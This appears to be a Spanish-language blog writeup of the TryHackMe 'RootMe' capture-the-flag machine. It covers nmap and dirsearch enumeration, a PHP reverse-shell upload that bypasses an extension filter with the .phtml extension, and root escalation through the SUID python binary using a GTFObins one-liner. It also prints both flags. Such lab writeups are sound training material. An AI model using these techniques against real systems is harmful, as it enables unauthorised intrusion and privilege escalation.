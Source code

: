 ```yaml
---
layout: post
title: Tryhackme - Rootme
autor: S3cureroy
date: 2023-02-10
categories: [CTF, Tryhackme]
tags: [suid, reverse shell, nmap, python, dirsearch, misconfiguration]
---
```


Hoy traigo un *writeup* de una máquina muy sencilla, que permite seguir practicando la explotación web mediante el uso de la explotación de una mala configuración en un *CMS*, para posteriormente, usar técnicas de escalada de privilegios en entornos Linux, concretamente, la explotación de un binario con permisos SUID.

La máquina está categorizada como fácil, pero en el momento de encararla, no imaginaba que iba a ser tan sencilla.

Destacaría de esta máquina el filtrado de extensiones en la subida de la shell, el cual, como se verá más adelante, no permite subir ciertos ficheros, pero se evade de manera sencilla.

## Enumeración.

Se empieza mediante el uso de la herramienta ```nmap``` usando los parámetros para que muestre las versiones de los programas instalados, y además, se lancen los scripts más usados en entornos Web.

~~~bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-21 04:21 EDT
Nmap scan report for 10.10.6.35
Host is up (0.061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.13 seconds
~~~

### Servidor Web.

Al descubrir que se está exponiendo el puerto 80, y que además se trata del conocido servidor Web Apache, se decide enumerar recursos de la página mediante el uso de la herramienta ```dirsearch```.

~~~
04:27:05] Starting: 
[04:27:08] 403 -  275B  - /.htaccess-dev                              
[04:27:08] 403 -  275B  - /.htaccess-local
[04:27:08] 403 -  275B  - /.htaccess-marco
[04:27:08] 403 -  275B  - /.htaccess.old
[04:27:08] 403 -  275B  - /.htaccess.bak1
[04:27:08] 403 -  275B  - /.htaccess.sample
[04:27:08] 403 -  275B  - /.htaccess.save
[04:27:08] 403 -  275B  - /.htaccess.orig
[04:27:08] 403 -  275B  - /.htaccess.txt
[04:27:08] 403 -  275B  - /.htaccessOLD
[04:27:08] 403 -  275B  - /.htaccessBAK
[04:27:08] 403 -  275B  - /.htaccessOLD2
[04:27:08] 403 -  275B  - /.htpasswd-old
[04:27:08] 403 -  275B  - /.httr-oauth
[04:27:09] 403 -  275B  - /.php                                       
[04:27:11] 200 -  616B  - /
[04:27:24] 301 -  306B  - /css  ->  http://10.10.6.35/css/
[04:27:28] 200 -  616B  - /index.php
[04:27:28] 200 -  616B  - /index.php/login/
[04:27:29] 301 -  305B  - /js  ->  http://10.10.6.35/js/
[04:27:32] 301 -  308B  - /panel  ->  http://10.10.6.35/panel/
[04:27:32] 200 -  732B  - /panel/                         
[04:27:35] 403 -  275B  - /server-status
[04:27:35] 403 -  275B  - /server-status/
[04:27:39] 200 -  741B  - /uploads/
[04:27:39] 301 -  310B  - /uploads  ->  http://10.10.6.35/uploads/
                                                                                        
Task Completed
~~~

Se obtiene el código de respuesta 200 en el recurso ```/login```, al cual se accede. 

Dentro, solamente hay un título, sin posibilidad de hacer nada más, al menos aparentemente.

## Acceso inicial.

Dentro de ```/panel``` se pueden subir ficheros que se descubre, pueden ser vistos en el recurso ```/uploads```.

Se sube un fichero que contiene una shell reversa en lenguaje **php** con el nombre ```hola.phtml```. Esto es debido a que la web incorpora un sistema de protección basado en el filtrado de extensiones, y no se puede subir con la extensión del propio lenguaje.

Se abre un puerto con ```nc``` en la máquina atacante, y al abrir el fichero desde el navegador, se obtiene acceso a la máquina.  
![Acceso inicial][rootme1]

Una vez dentro, se obtiene la flag de usuario, alojada en ```/var/www/user.txt```.

~~~bash
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~

## Escalada de privilegios.

Generalmente, se debe enumerar vectores de escalada de privilegios manualmente, sobre todo para aprender como explotar dichos vectores y para generar una metodología, pero en este caso, se transfiere mediante el módulo **SimpleHTTPServer** el script llamado LinEnum que automatiza esta tarea.

El script informa que el binario de python dispone del bit SUID que pueden ser explotados. Por tanto, se busca en la Web [GTFObins](https://gtfobins.github.io/gtfobins/python/) como.  
![Salida Lineum][rootme2]
![GTFObins][rootme3]

Se lanza el comando que indica la web GTFObins en la máquina víctima, después de poner a escuchar un puerto en la máquina atacante.

```python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
``` 

Entonces se obtiene una shell, que si se lanza un comando ```id``` se puede ver que el euid (*effective uid*) es root.

~~~bash
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
~~~

Se accede a la flag de root terminando la explotación de la máquina.

~~~bash
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~



[rootme1]: https://i.imgur.com/FBlxsxX.png
[rootme2]: https://i.imgur.com/F9EmKQw.png
[rootme3]: https://i.imgur.com/uQVCB1u.png


